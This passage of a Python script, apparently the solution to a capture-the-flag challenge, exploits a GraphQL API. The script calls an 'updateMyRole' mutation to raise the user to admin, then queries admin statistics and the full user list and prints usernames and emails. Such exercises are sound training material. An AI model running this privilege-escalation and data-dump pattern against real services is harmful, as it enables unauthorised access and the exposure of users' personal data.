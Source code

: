 ```python
    
    user_info = result["data"]["me"]
    print(f"   ✅ Authenticated as: {user_info['username']} (role: {user_info['role']})")
    
    # Step 3: Escalate privileges
    print("\n3. Escalating privileges...")
    escalate_query = "mutation { updateMyRole(newRole: admin) { id username role } }"
    result = graphql_request(escalate_query, token)
    
    if "errors" in result:
        print(f"   ❌ Privilege escalation failed: {result['errors']}")
        return
    
    updated_user = result["data"]["updateMyRole"]
    print(f"   ✅ Role updated: {updated_user['username']} is now {updated_user['role']}")
    
    # Step 4: Access admin data
    print("\n4. Accessing admin data...")
    admin_query = """
    query {
        adminStats {
            totalUsers
            totalPosts
            adminUsers {
                id
                username
                email
                role
            }
        }
    }
    """
    
    result = graphql_request(admin_query, token)
    
    if "errors" in result:
        print(f"   ❌ Admin access failed: {result['errors']}")
        return
    
    admin_stats = result["data"]["adminStats"]
    print(f"   ✅ Admin access successful!")
    print(f"   📊 Total Users: {admin_stats['totalUsers']}")
    print(f"   📊 Total Posts: {admin_stats['totalPosts']}")
    print(f"   👥 Admin Users:")
    
    for admin_user in admin_stats['adminUsers']:
        print(f"      - {admin_user['username']} ({admin_user['email']})")
    
    # Step 5: Get all users
    print("\n5. Retrieving all users...")
    users_query = "query { users { id username email role created_at } }"
    result = graphql_request(users_query, token)
    
    if "errors" not in result:
        users = result["data"]["users"]
        print(f"   ✅ Retrieved {len(users)} users:")
        for user in users:
            print(f"      - {user['username']} ({user['email']}) - {user['role']}")
    
    print("\n🏆 Challenge completed successfully!")
    print("🎉 You have successfully exploited the JWT privilege escalation vulnerability!")

if __name__ == "__main__":
```